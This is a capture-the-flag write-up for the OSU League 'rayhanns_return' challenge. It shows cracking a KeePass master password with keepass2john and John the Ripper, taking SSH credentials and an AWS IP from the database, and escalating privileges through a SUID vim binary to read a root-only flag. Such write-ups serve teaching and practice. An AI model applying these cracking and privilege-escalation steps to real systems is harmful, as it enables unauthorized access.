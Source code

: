 ```yaml
---
title: "OSU League 2020/2021 - rayhanns_return Writeup"
date: 2021-02-22
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this challenge, we are given three files: A PDF that explains the lore/backstory of our task, an ISO file, and a wordlist that seems to be a derivitive of the `rockyou.txt` wordlist.

The first thing I did was mount the ISO file to my file system to see its contents:

```
$ sudo mount -o loop CTG-2021-02-19-001.iso /mnt/disk
$ cd /mnt/disk
$ ls
lost+found  rhodgson.kdbx
```

Interesting, we have a keepass password database. Let's see if we can open it:

```
$ kpcli --kdb rhodgson.kdbx 
Please provide the master password: *************************
Couldn't load the file rhodgson.kdbx: Missing pass
```

Dang, looks like we need to know the master password.... Or do we? (Insert Vsauce music)

We were given a password list right at the start, maybe we can use that to try and crack the password. Using johntheripper's `keepass2john`, we can convert this kee pass db into a hash format that john can try to crack:

```
$ ./keepass2john /mnt/disk/rhodgson.kdbx > hash.txt
$ john --wordlist=CTG_STANDARD_WORDLIST.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1hodgson         (rhodgson)
1g 0:00:00:20 DONE (2021-02-20 18:12) 0.04803g/s 135.2p/s 135.2c/s 135.2C/s prield28..pinkphone98
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And there we go! We have the password to the kee pass file, `1hodgson`.

We can use that password and begin navigating the database.

```
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
rhodgson/
kpcli:/> cd rhodgson/
kpcli:/rhodgson> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. My Flag Box                                               34.216.68.186
kpcli:/rhodgson> show -f My\ Flag\ Box 

 Path: /rhodgson/
Title: My Flag Box
Uname: ubuntu
 Pass: As.3S;d0cvAS3kmm3VI(N
  URL: 34.216.68.186
Notes: This aws thing is maybe useless cause I was messing with permissions, and now I cannot print the flag, and dont understand what I did when I was messing around with SUID bits. https://imgflip.com/i/4yladl

kpcli:/rhodgson> 
```

We have an aws box with the password!!  Default user on aws ubuntu boxes is `ubuntu`, so let's try to SSH into `34.216.68.186` as that user and with that password:

```
ubuntu@ip-172-31-24-45 / % ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
```

We are in! Let's start looking for the flag:

```
ubuntu@ip-172-31-24-45 ~ % ls -lah
total 180K
drwxr-xr-x 7 ubuntu ubuntu 4.0K Feb 21 02:48 .
drwxr-xr-x 4 root   root   4.0K Feb 18 10:27 ..
-rw------- 1 ubuntu ubuntu   61 Feb 20 03:44 .Xauthority
-rw------- 1 ubuntu ubuntu 1.8K Feb 20 04:10 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4.0K Feb 18 09:53 .cache
drwx------ 3 ubuntu ubuntu 4.0K Feb 20 06:37 .config
-rw------- 1 root   root     28 Feb 19 02:56 .flag

ubuntu@ip-172-31-24-45 ~ % cat .flag
cat: .flag: Permission denied
```

After a little digging, I was able to find `.flag` hidden in the home directory of ubuntu. But the file is only readable by root :/

Usually with boxes like this, the first thing I look for is any SETUID binarys that I could use to priv esc or read certain files, so let's try that:

```
ubuntu@ip-172-31-24-45 ~ % find / -perm -4000 2>/dev/null           
...
/usr/bin/at
/usr/bin/sudo
/usr/bin/vim.basic
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Sweet! We have vim as a SETUID, that means we can just read the flag with root privileges by doing `$ vim .flag`:

And we get the flag!  

`osu{rAyh44n_is_b4d_@_0ps3c}`